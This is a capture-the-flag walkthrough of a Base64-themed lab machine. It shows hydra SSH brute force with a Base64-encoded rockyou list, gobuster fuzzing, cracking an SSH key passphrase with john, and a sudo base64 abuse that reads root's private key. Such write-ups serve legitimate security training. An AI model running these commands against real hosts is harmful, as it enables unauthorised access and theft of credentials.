# Reconnaissance

### Nmap

##### Open TCP ports:

- 22 (ssh)
- 80 (http)

##### Open UDP ports:
None.
### Web analysis

On the website, there is only a single text string.




If we inspect the source code we find interesting comments:



Puede hacer referencia al diccionario rockyou.txt?

The text looks encoded, we can find online several tools to check this and we find a message encoded in Base64. We just need to decode it, for that we will save the following text in a file and then decode it:

```
QUxMLCBhYnNvbHV0ZWx5IEFMTCB0aGF0IHlvdSBuZWVkIGlzIGluIEJBU0U2NC4KSW5jbHVkaW5nIHRoZSBwYXNzd29yZCB0aGF0IHlvdSBuZWVkIDopClJlbWVtYmVyLCBCQVNFNjQgaGFzIHRoZSBhbnN3ZXIgdG8gYWxsIHlvdXIgcXVlc3Rpb25zLgotbHVjYXMK
```

To decode it we simply use `base64`tool from Kali Linux:

```terminal
base64 -d texto-web.txt > text-web-dec.txt
```

And we find the message with a signature. Potential system user: `lucas`



We have a potential user and a ssh service available at port 22. Let's try to gain access through brute force.
### Brute force user "lucas"

We have a user and we will try to brute force the password. Let's use the rockyou dictionary, but we need to make a quick change since the password is encoded in base64 as the message from the website was mentioning. Let's create a copy of the wordlist rockyou but each password will be encoded.

We use this simple command directly on the command line, or we can create an executable file with it:

```terminal
for i in $(cat /usr/share/wordlists/rockyou.txt); do                           
    echo "$i" | base64 
done > rockyou_64-v2.txt
```

And then we launch the attack:

```terminal
hydra -l lucas -P rockyou_64-v2.txt ssh://[TARGET IP]
```

This doesn't work, so let's try encoding also the user `"lucas" = bHVjYXM=`:

```terminal
hydra -l bHVjYXM= -P rockyou_64-v2.txt ssh://[TARGET IP]
```

Nothing. Let's try to investigate a bit more:

### Fuzzing web

Just to make sure, lets try to find any other directories in case we have a hidden login somewhere or any functionality to upload files.

Fuzzing does not show anything else, but following the same logic as before let's try to fuzz directories encoded in base64. We create the new wordlist for fuzzing using same logic as before. I will use the wordlist `common.txt` but it is worth taking the time to try other wordlists:

```terminal
for i in $(cat /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt); do
    echo "$i" | base64
done > common_64-v2.txt
```

And we launch the tool:

```terminal
gobuster dir -u http://[TARGET IP] -w common_64-v2.txt
```

We found interesting directories:



Both directories are downloadable files. One does not contain anything, but the other is encoded. Once decoded in base64 we find an rsa private key:



With this key we can gain access to the machine via ssh.

# Gain access

I saved the private key in a file called `id_rsa`and gave the correct permissions:

```terminal
chmod 600 id_rsa
```

To use this private key we just need to run a regular command to access to the target machine:

```terminal
ssh -i id_rsa lucas@[TARGET IP]
```

Nevertheless to use the key we need a passphrase as we can see:



### Obtaining passphrase with John The Ripper

Using `ssh2john`we can generate a hash that we can try to crack with john:

```terminal
ssh2john id_rsa > hash
```

Once we have the hash we just need to run john using the rockyou wordlist in base64 we created before:

```terminal
john -w rockyou_64-v2.txt hash
```

We successfully found the passphrase. The passphrase is `iloveyou`encoded in base64.



Now we run ssh again, and we get access as user `lucas`:



We can get now the user flag.

# Privilege escalation

Once inside the machine, let's see what can `lucas`do as root. Running `sudo -l`shows that `lucas`is in the sudoers file and can actually use the base64 tool as root without the need to use password: 



Although this tool does not allow us to execute direct system commands to escalate privileges it can actually let us read files that only root can read. One interesting file we can read is the id_rsa file of root, we just need to run a simple command:

```terminal
sudo -u root /usr/bin/base64 /root/.ssh/id_rsa
```

We get the private key of root, we can now do the same procedure as with `lucas` and access via ssh. First we copy the content and create a `root_id_rsa` file:



We give the corresponding permissions and we run:

```terminal
ssh -i root_id_rsa root@[TARGET IP]
```

And we access as root:



We can get now the root flag.
